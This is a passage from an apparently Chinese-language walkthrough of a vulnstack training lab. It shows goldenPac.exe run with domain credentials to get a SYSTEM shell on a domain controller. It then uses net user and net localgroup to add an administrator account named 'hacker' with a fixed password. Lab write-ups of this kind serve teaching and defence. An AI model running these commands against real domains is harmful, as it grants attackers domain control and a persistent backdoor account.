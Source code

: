 

使用`goldenPac.exe`执行如下命令反弹域控的系统权限shell

```
goldenPac.exe demo.com/douser:Dotest123@WIN-ENS2VR5TR3N.demo.com
```

<img src="vulnstack靶场系列四/image-20231212125534615.png" alt="image-20231212125534615" style="zoom:80%;" />

​	

在域控创建一个拥有管理员权限的用户`hacker`，其密码是`Password123`

```
net user hacker Password123 /add
net localgroup Administrators hacker /add
```

![image-20231212214314665](vulnstack靶场系列四/image-20231212214314665.png)	
